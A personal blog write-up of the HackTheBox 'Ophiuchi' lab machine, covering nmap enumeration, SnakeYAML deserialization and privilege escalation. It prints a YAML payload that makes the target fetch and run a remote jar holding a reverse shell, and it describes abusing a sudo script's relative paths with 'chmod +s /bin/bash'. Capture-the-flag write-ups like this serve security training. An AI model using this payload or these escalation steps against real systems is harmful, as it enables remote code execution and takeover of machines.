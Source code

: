 ```yaml
---
layout: post
title: Opiuchi Box Write-up(HTB)
author: arimaqz
categories: [Writeup, HTB]
tags: [snakeyaml-deserilization]
---
```

This is a writeup of opiuchi box hosted on HackTheBox.

![achivement](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/achievement.webp)

## Information gathering
the first phase is information gathering and we don’t really have that in hackthebox but we do know that the machine is a linux machine and the IP is `10.10.10.227`.

## Enumeration
i started the process with nmap: `nmap -T5 -A -p- 10.10.10.227`

the result was:
![nmap result   ](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/nmap-result.webp)

there are 2 open ports: SSH and HTTP. i know i can’t get a shell with SSH alone so i checked the HTTP server:
![nmap result   ](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/http-page.webp)

a yaml parser! so i checked for potential vulnerabilities and came across [this medium article](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) and [this github repository.](https://github.com/artsploit/yaml-payload).

basically we can pass a java constructor into yaml parser and make it send a request to our server for a file, which will have a reverse shell in it!

## Exploitation
i fired up a python server:

![python sserver](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/python-server.webp)

then i tested this vulnerability:

![testing vulnerability](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/testing%20vulnerability.webp)

and i saw that it made a request to us, then i followed the github repository’s steps to make it upload and run my reverse shell on the machine, and so i cloned the repository and edited the java file:

![edited java file](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/edited-java-file.webp)

this will make the machine download the reverse shell file and then execute it, resulting in a shell for us. i then followed the steps to make it a jar file. after that i made the yaml parser send a request to that file and started a netcat listener:

```
!!javax.script.ScriptEngineManager [
 !!java.net.URLClassLoader [[
 !!java.net.URL [“http://10.10.xx.xx:8000/snakeyaml/yaml-payload.jar"]
 ]]
]
```

## Post Exploitation
now that i got a shell, it’s time to escalate my privileges. i searched through the web server files and found this:

![username and password](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/usernamenpass.webp)

the username and password of the admin. i used that to ssh into the server with admin user and it was a success. there was a user flag file in the home directory too. then i tried to escalate my privileges further, to root! i used `sudo -l` to check whether there is anything i can abuse or not, and there was this:

![sudo -l](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/sudol.webp)

i then tried to run it to see what was going on, but it failed miserably so i `cat` ed the file to see what was written in it:

![script flaws](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/scriptflaws.webp)

there was a flaw in it! it used relative paths and not absolute ones, meaning i could abuse it by running the script from say `tmp` folder and create those files by myself. there were those two files in the same folder as the script too, i copied `main.wasm` to `tmp` and created my own `deploy.sh` and put `chmod +s /bin/bash` in it to make `/bin/bash` executable by my current account as root so that i could get root. but there was another problem and the problem was that the script was using an `if statement` to check whether variable `f` is `1` or not, and it had to be `1` to run perfectly but it wasn’t for some reason. so i copied `main.wasm` to my machine and used `wasm2wat` to check its content:

![wasm file](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/wasm.webp)

function info has a constant variable `i32` that is set to `0`, i tried setting that to `1`:

![edited wasm](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/editedwasm.webp)

then i converted it to wasm again and started a python server and used curl on HTB machine and downloaded the file, then i ran the script again and i could get root:

![getting root](/assets/img/posts/2021-07-03-ophiuchi-box-write-up/gettingroot.webp)

then i got the root flag in `/root` and that was my write-up for Opiuchi box at hackthebox!
